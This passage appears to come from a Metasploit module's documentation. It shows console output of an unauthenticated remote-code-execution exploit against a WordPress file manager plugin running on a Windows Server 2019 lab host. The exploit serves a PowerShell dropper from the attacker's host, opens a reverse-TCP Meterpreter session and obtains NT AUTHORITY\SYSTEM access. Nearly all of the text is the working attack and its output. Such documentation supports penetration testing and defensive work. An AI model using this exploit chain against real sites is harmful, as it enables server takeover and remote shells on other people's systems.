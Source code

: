 ```

meterpreter > sysinfo
Computer        : WIN-BJDNH44EEDB
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```
### Windows Server 2019 Windows Dropper - windows/x64/meterpreter/reverse_tcp
```
msf6 exploit(multi/http/wp_plugin_fma_shortcode_unauth_rce) > exploit

[*] Started reverse TCP handler on 192.168.201.10:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. fmakey successfully retrieved: 2a1a319c46
[*] Executing Windows Dropper for windows/x64/meterpreter/reverse_tcp
[*] Using URL: http://192.168.201.10:1981/yRZ6hM
[*] Client 192.168.201.55 (Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.17763.1) requested /yRZ6hM
[*] Sending payload to 192.168.201.55 (Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.17763.1)
[*] Sending stage (200774 bytes) to 192.168.201.55
[+] Deleted hjAQqbEFAt.php
[*] Meterpreter session 4 opened (192.168.201.10:4444 -> 192.168.201.55:50519) at 2023-06-28 14:26:02 +0000
[*] Command Stager progress - 100.00% done (146/146 bytes)
[*] Server stopped.

meterpreter > sysinfo
Computer        : WIN-BJDNH44EEDB
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```

## Limitations
No limitations.
